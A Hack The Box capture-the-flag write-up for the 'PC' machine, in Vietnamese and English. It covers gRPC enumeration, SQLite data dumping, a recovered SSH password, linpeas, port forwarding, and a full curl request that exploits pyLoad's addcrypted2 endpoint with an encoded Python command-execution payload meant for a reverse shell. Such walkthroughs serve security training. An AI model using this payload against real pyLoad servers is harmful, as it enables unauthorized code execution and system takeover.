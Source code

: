 ```yaml
---
title: PC Hack The Box 
date: 2023-06-25 22:50:30 +/-TTTT
categories: [Hack The Box, PC]
tags: [PC HTB] 

image:
  path: /assets/img/htb/pc/logo.jpg
  # alt: PC HTB
---
```


## Work Flow
![image]( /assets/img/htb/pc/workflow.png)

## Enumeration
Recon pc machine with nmap scan
![image](/assets/img/htb/pc/nmap.png)

- Search service for port 50051 -> gRPC service
+ Install grpcurl and add grpcurl to env
![image](/assets/img/htb/pc/insstall_grpcurl.png)
![image](/assets/img/htb/pc/addevn.png)

## Exploit
### Use commandline
- Thực hiện tạo người dùng và thu thập thêm thông tin (trường hợp lấy thông tin bằng token bị fail, thực hiện login lại để kiểm tra user đã bị xóa chưa, nếu user đã bị xóa tạo lại tài khoản mới)
![image](/assets/img/htb/pc/account.png)

- Thực hiện truy vấn dữ liệu sqlite
![image](/assets/img/htb/pc/query1.png) 
![image](/assets/img/htb/pc/query2.png) 
![image](/assets/img/htb/pc/query3.png) 

### Hoặc cũng có thể sử dụng grpcui để có giao diện 
![image](/assets/img/htb/pc/ui.png) 
![image](/assets/img/htb/pc/install_ui.png) 
- Start grpcui và tiếp tục khai thác
```shell
grpcui -plaintext IP_machine:50051
```
![image](/assets/img/htb/pc/start1.png)
![image](/assets/img/htb/pc/start2.png)

-Register, login and exploit with grpcui
![image](/assets/img/htb/pc/1.png)
![image](/assets/img/htb/pc/2.png)
![image](/assets/img/htb/pc/3.png)
- Sử dụng burpsuite để dễ xem các thông tin request và reponse
![image](/assets/img/htb/pc/4.png)
![image](/assets/img/htb/pc/5.png)
![image](/assets/img/htb/pc/6.png)

-> Sau khi recon và dump data, ta có được thông tin account sau/HereIsYourPassWord1431 

Sử dụng thông tin thu thập được thực hiện ssh vào hệ thống
![image](/assets/img/htb/pc/user.png)

## Escalation
- Download và chạy linpeas
![image](/assets/img/htb/pc/linpeas.png)
![image](/assets/img/htb/pc/service.png)
- Với các port đang mở thực hiện ssh forwarding port để truy cập trên máy local
![image](/assets/img/htb/pc/ssh_forward.png)
![image](/assets/img/htb/pc/web_root.png)
- Thực hiện tìm kiếm exploit pyload (https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/)
![image](/assets/img/htb/pc/search.png)
- Thực hiện thay đổi payload trong package để revershell
```shell
curl -i -s -k -X $'POST' -H $'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' --data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%74%6f%75%63%68%20%2f%74%6d%70%2f%70%77%6e%64%22%29;f=function%20f2(){};&passwords=aaaa' $'http://127.0.0.1:8000/flash/addcrypted2'
```
![image](/assets/img/htb/pc/burp.png)
- Mở port lắng nghe trước khi chạy payload revershell 
![image](/assets/img/htb/pc/nc.png)








